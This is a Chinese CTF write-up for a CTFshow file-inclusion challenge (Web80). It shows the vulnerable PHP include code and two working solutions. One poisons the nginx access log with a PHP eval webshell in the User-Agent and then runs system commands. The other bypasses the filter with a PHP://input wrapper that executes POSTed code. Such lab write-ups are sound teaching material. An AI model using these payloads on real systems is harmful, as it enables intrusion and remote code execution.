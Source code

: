 # CTFshow 文件包含

**题目范围：Web78 - Web88 | Web116 - Web117**





## Web 80

代码如下：

```php
<?php
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
} else {
    highlight_file(__FILE__);
}
?>
```

本关过滤了php和data应该是不允许使用伪协议，但是可以正常包含，采用包含日志文件的方式。

日志文件中包含了 url以及ua信息等，这里ua最容易控制，抓包改ua，写入一句话即可。如下第三行

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```

可以直接命令执行即可也可以用webshell后门工具连接

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();
?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

寻找PHPinfo信息前面的那一段信息即可找到



**另一种方法：**

对于php 和data 已经被过滤掉了，所以都不能用，但是用POST 的方法，还能用，为了不被过滤，php://input 改成PHP://input

GET方法改为POST方法最后添加一行，内容是需要包含的php代码。执行为：

/?file=PHP://input HTTP/1.1

POST数据部分：`<?php system('ls *.php');?>`



